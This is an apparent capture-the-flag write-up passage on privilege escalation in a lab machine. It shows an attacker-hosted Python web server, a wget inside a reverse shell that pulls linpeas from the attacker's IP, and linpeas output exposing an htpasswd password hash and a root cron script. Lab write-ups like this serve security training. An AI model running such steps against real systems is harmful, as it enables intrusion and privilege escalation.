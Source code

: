 * Be sure to upgrade your dummy shell to a fully-interactive one

{% content-ref url="../../../fully-interactive-shell-upgrade.md" %}
[fully-interactive-shell-upgrade.md](../../../fully-interactive-shell-upgrade.md)
{% endcontent-ref %}

## Privilege Escalation

After some manual enumeration, I was unable to find anything. Let's load up linpeas and see if we can find anything.

#### File Transfer

Linpeas Link: [https://github.com/carlospolop/PEASS-ng/releases/download/20230418-edede4b8/linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/download/20230418-edede4b8/linpeas.sh)

On attacker machine, run:&#x20;

```
python3 -m http.server 80
```

In reverse shell, run:

```
wget http://10.10.14.38:80/linpeas.sh
```

### Local enumeration

Linpeas output:

```
Readable files inside /tmp, /var/tmp, /private/tmp, /private/var/at/tmp, /private/var/tmp, and backup folders (limit 70)
-rw-r--r-- 1 root root 40960 Mar 17  2022 /var/backups/alternatives.tar.0

Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found /var/lib/command-not-found/commands.db: SQLite 3.x database, last written using SQLite version 3031001
Found /var/lib/fwupd/pending.db: SQLite 3.x database, last written using SQLite version 3031001
Found /var/lib/PackageKit/transactions.db: SQLite 3.x database, last written using SQLite version 3031001

Backup files (limited 100)
/home/wizard/photobomb/log/photobomb.log.old

Unexpected in /opt (usually empty)
cleanup.sh ****

Possible private SSH keys were found!
/etc/ImageMagick-6/mime.xml

Analyzing Ldap Files (limit 70)
The password hash is from the {SSHA} to 'structural'
drwxr-xr-x 2 root root 4096 Sep 16  2022 /etc/ldap

Analyzing Htpasswd Files (limit 70)
-rw-rw-r-- 1 wizard wizard 44 Sep 14  2022 /home/wizard/photobomb/.htpasswd
pH0t0:$apr1$dnyF00ZD$9PifZwUxL/J0BCS/wTShU1

curl this http://127.0.0.1:4567

/opt/cleanup.sh runs every 5 mins ****
```
